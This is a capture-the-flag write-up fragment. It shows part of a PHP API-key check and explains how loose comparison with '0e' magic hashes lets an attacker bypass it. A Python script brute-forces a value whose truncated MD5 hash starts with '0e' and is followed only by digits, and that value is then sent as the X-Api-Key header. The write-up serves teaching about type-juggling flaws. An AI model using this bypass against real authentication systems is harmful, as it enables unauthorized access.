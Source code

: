 ``` sourceCode.php
                        }
                }
}
 
if ($apikey == $key){
        echo('correct key'.'<br>');
        echo($json_response1);
}
 
else{
    echo ('UNAUTHORIZED: x-api-key is incorrect.');
}
?>
```

Analyzing the code, it seems that the possible vulnerable part of the code is likely to be the loose comparison between `$apikey` which we semi-control and `$key`.

But! Since `$key` is set to `0e51[REDACTED]`, we can simply force the check to be `0eXXXX == 0e51[REDACTED]` and this will evaluate to true, giving us the flag.

Furthermore, when an invalid api key is provided, it does not immediately return the response and instead allows the code to flow down to the `if else` condition at the bottom.

So, with that I generated a script to find a API key that when concatenated with `DDL_SuP3RSecret`  and md5 hashed will result in `0eXXXX...`.

```
import hashlib
import requests
import re

def findVulnerableHash():
    tryVal = 0
    while 1:
        m = hashlib.md5()
        concat = "DDL_SuP3RSecret" + str(tryVal)
        m.update(concat.encode())
        # hmac is only offset 0 to 3 [0:4]
        check = m.hexdigest()[0:4]
        print(tryVal, check)
        if re.match(r'0+[eE]\d+$', check):
            print("The valid value for api-key is", tryVal)
            return tryVal
        tryVal += 1
print(findVulnerableHash())
# Gives us 1372 as the API-key we need.
```

As such, we can now send it along as the `X-Api-Key` header value which will give us flag. 

![](Pasted%20image%2020220926001413.png)
